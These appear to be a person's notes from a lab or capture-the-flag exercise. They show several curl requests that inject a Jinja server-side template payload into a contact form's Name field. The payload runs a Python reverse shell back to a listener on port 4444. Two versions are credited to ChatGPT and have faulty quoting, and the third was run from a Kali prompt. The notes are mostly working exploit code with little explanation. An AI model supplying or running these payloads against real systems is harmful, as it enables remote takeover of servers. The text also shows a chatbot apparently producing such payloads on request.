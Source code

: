 

From ChatGPT
```http
curl -X POST http://192.168.56.123/contact \
 -H "Content-Type: application/x-www-form-urlencoded" \
 -H "Referer: http://192.168.56.123/" \
 -H "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8" \
 -H "Accept-Encoding: gzip,deflate" \
 -H "Host: 192.168.56.123" \
 -H "User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0" \
 -H "Connection: Keep-alive" \
 --data-urlencode "Name={{request.application.__globals__.__builtins__.__import__('os').popen(\"python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('192.168.56.123',4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i'])'\").read()}}" \
 --data "w3lPhone=123123123123&w3lSender=DerpGuy@email.com&w3lSubject=mySub&w3lMessage=MyMessage"
```


```go
curl -X POST http://192.168.56.123/contact \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -H "Referer: http://192.168.56.123/" \
  -H "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8" \
  -H "Accept-Encoding: gzip,deflate" \
  -H "Host: 192.168.56.123" \
  -H "User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0" \
  -H "Connection: Keep-alive" \
  --data-urlencode "Name={{request.application.__globals__.__builtins__.__import__('os').popen('python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.56.123\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"])\'').read()}}" \
  --data "w3lMessage=20&w3lPhone=555-666-060&w3lSender=DerpGuy%40email.com&w3lSubject=1"

```
DerpGuy@email? is the problem?


```
┌──(kali㉿kali)-[~]
└─$ curl -X POST http://192.168.56.123/contact \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -H "Referer: http://192.168.56.123/" \
  -H "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8" \
  -H "Accept-Encoding: gzip,deflate" \
  -H "Host: 192.168.56.123" \
  -H "User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0" \
  -H "Connection: Keep-alive" \
  --data-urlencode "Name={{request.application.__globals__.__builtins__.__import__('os').popen('python3 -c \"import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\\\"192.168.56.52\\\",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call([\\\"/bin/sh\\\",\\\"-i\\\"])\"').read()}}" \
  --data "w3lMessage=20&w3lPhone=555-666-060&w3lSender=DerpGuy%40email.com&w3lSubject=1"

Warning: Binary output can mess up your terminal. Use "--output -" to tell curl to output it to your terminal anyway, or consider 
Warning: "--output <FILE>" to save to a file.
```
